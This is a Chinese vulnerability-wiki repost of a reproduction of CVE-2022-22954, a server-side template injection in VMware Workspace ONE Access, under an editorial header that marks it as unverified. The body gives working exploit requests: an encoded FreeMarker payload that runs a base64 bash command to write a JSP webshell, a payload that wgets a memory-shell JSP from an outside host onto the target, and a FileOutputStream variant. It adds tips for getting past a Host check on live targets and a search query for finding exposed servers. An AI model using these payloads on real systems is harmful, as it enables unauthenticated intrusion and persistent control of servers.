# cve-2022-22954 漏洞从命令执行到 getshell

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：VMware Workspace ONE Access/Identity Manager
- 文献类型：SSTI复现转载
- 版本、权限及部署边界：列多个应用版本及集成产品CloudFoundation4.x/vRLCM8.x；未认证verify入口，写JSP需特定目录可写/解析
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与misc270全文同源近重复，269保留更多截图但OVA信息挤单行，270信息格式较好，合并保留互补资源
2. frontmatterversion误抽注册账号整句且漏CVE；集成产品需具体受影响嵌入组件，不等所有VMware
3. 命令执行测试只截图，实际入口verify与前文抓登录页区分；任意域名Host即可的断言需合法FQDN验证条件
4. echo失败与ObjectConstructor直接写文件是独立补充证据应保留，不把写文件/内存马当默认只读检测，nei1.jsp源码缺
5. 2201IP/25930服务是近一年测绘记录不等于独立受影响资产，统计时点缺；VMSA来源明确但未给具体修复矩阵

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/pyPXnvOn-dWElPZuDFzx8w>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://customerconnect.vmware.com/cn/downloads/details?downloadGroup=WS1A_ONPREM_210801&productId=1166&rPId=72076&download=true&fileId=9105132915e73dc7c0019f80b266d79d&uuId=d74aa804-dea0-43aa-ae53-9a64c5454288Name:identity-manager-21.08.0.1-19010796_OVF10.ova发布日期:2021-12-09内部版本号:19010796MD5SUM：1cbb84480f328d17466e79f5a63fb58e>
- 原文参考链接（未重新核验）：<https://workspace.test.com/SAAS/auth/login，使用>
- 原文参考链接（未重新核验）：<https://www.bugku.net/runtime-exec-payloads/`>
- 原文参考链接（未重新核验）：<https://workspace.test.com/SAAS/horizon/js/a.jsp>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/pyPXnvOn-dWElPZuDFzx8w)

漏洞介绍  

=======

### 漏洞名称

*   VMware 服务端模板注入（SSTi）漏洞
    

### 影响范围

*   VMware Workspace ONE Access : 21.08.0.1，21.08.0.0，20.10.0.1，20.10.0.0
    
*   VMware Identity Manager : 3.3.6，3.3.5，3.3.4，3.3.3
    
*   VMware Cloud Foundation : 4.x
    
*   vRealize Suite Lifecycle Manager : 8.x
    

### 利用条件

*   无需用户认证
    
*   远程命令执行
    

环境搭建
----

### 下载 ova

```
identity-manager-21.08.0.1-19010796_OVF10.ova下载地址：https://customerconnect.vmware.com/cn/downloads/details?downloadGroup=WS1A_ONPREM_210801&productId=1166&rPId=72076&download=true&fileId=9105132915e73dc7c0019f80b266d79d&uuId=d74aa804-dea0-43aa-ae53-9a64c5454288Name:identity-manager-21.08.0.1-19010796_OVF10.ova发布日期:2021-12-09内部版本号:19010796MD5SUM：1cbb84480f328d17466e79f5a63fb58e
```

*   注册一个 vmware 账号，下载上述带漏洞的版本即可
    

### 导入 VMware

*   将下载好的 ova 文件，导入本地的 VMware 客户端中，需要注意，在导入 ova 以后，需要设置 Host Nmae(FQDN) 为后续我们需要使用的域名
    



### 绑定 host

*   等待安装完成，查看 ip 与地址
    



*   在本地 hosts 中绑定 ip 与域名
    



### 安装

*   访问域名进行安装，输入相关用户名密码以后安装完成
    



漏洞复现
----

### 命令执行

*   访问：https://workspace.test.com/SAAS/auth/login，使用 burp 抓包，执行命令`cat /etc/passwd`
    



### 写入 webshell

*   经过测试存在漏洞，既然可以执行命令，那么也可以写 webshell，经过测试，发现`/opt/vmware/horizon/workspace/webapps/SAAS/horizon/js/`目录可写，并且可以解析
    
*   在`https://www.bugku.net/runtime-exec-payloads/` 生成 bash 命令，生成的命令如下
    
*   原始命令
    

```
echo "<% out.print(\"123\"); %>" > /opt/vmware/horizon/workspace/webapps/SAAS/horizon/js/a.jsp
```

*   编码以后的命令
    

```
bash -c {echo,ZWNobyAiPCUgb3V0LnByaW50KFwiMTIzXCIpOyAlPiIgPiAvb3B0L3Ztd2FyZS9ob3Jpem9uL3dvcmtzcGFjZS93ZWJhcHBzL1NBQVMvaG9yaXpvbi9qcy9hLmpzcA==}|{base64,-d}|{bash,-i}
```

*   将生成的命令进行 url 编码
    



*   将 url 编码以后的 payload 放入 repeater 中发包
    



```
GET /catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%62%61%73%68%20%2d%63%20%7b%65%63%68%6f%2c%5a%57%4e%6f%62%79%41%69%50%43%55%67%62%33%56%30%4c%6e%42%79%61%57%35%30%4b%46%77%69%4d%54%49%7a%58%43%49%70%4f%79%41%6c%50%69%49%67%50%69%41%76%62%33%42%30%4c%33%5a%74%64%32%46%79%5a%53%39%6f%62%33%4a%70%65%6d%39%75%4c%33%64%76%63%6d%74%7a%63%47%46%6a%5a%53%39%33%5a%57%4a%68%63%48%42%7a%4c%31%4e%42%51%56%4d%76%61%47%39%79%61%58%70%76%62%69%39%71%63%79%39%68%4c%6d%70%7a%63%41%3d%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d%22%29%7d HTTP/1.1
Host: workspace.test.com
```

*   如果测试实网目标请一定要将 Host 设置为任意域名不然无法通过 Vmware Workspace One Access 的检测
    
*   访问 https://workspace.test.com/SAAS/horizon/js/a.jsp 就为写入的文件
    

### 下载 webshell

*   如果需要写大马或者内存马直接 echo 可能会超出 get 请求的长度，那么还有一种办法，在目标能出网的情况下，可以使用 python 启一个 http 服务，下载一个 webshell
    
*   在目录下放一个 jsp 木马，这里以 listener 内存马为例：
    

`/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22wget+-P+/opt/vmware/horizon/workspace/webapps/SAAS/horizon/js/+http://ip:port/nei1.jsp%22%29%7D`



*   访问内存马（https://workspace.test.com/SAAS/horizon/js/nei1.jsp），提示注入成功
    



*   然后访问任意一个路由，均可执行命令 https://workspace.test.com/SAAS/auth/login?cmd=whoami
    



### 坑

*   在实网测试时发现直接执行 echo 命令无法成功写入 webshell
    
*   经过测试，放弃使用 Execute 进行命令执行，在代码层面进行 webshell 的写入，测试的 payload 如下：
    

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileOutputStream","/opt/vmware/horizon/workspace/webapps/SAAS/horizon/js/aaa.jsp").write("freemarker.template.utility.ObjectConstructor"?new()("java.lang.String","<% out.print(\"123\"); %>").getBytes())}
```



*   访问 https://workspace.test.com/SAAS/horizon/js/aaa.jsp 文件被成功写入
    

漏洞影响
----

*   quake 搜索语法
    

> app:"Vmware Workspace One Access"

*   全网近一年数据中使用 Vmware Workspace One Access 的独立 IP 有 2201，涉及服务有 25930 条
    



*   全世界数据统计中发现使用 Vmware Workspace One Access 最多的是美国，第 2～6 位的是德国、中国、泰国、加拿大、巴西，涉及的服务数量分别是：9502、1643、1415、1264、834、707，详情请看下图：
    



*   在中国数据统计中，使用量最大的为香港的 591 条服务，其次是台湾省的 222 条服务，在北京、广东、天津、上海四个省市中使用的数量也在 100 条左右，详情请看下图：
    



参考链接
----

*   https://www.vmware.com/security/advisories/VMSA-2022-0011.html
    

**欢迎进群**

添加管理员微信号：**quake_360**

备注：进群    邀请您加入 QUAKE 交流群~

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
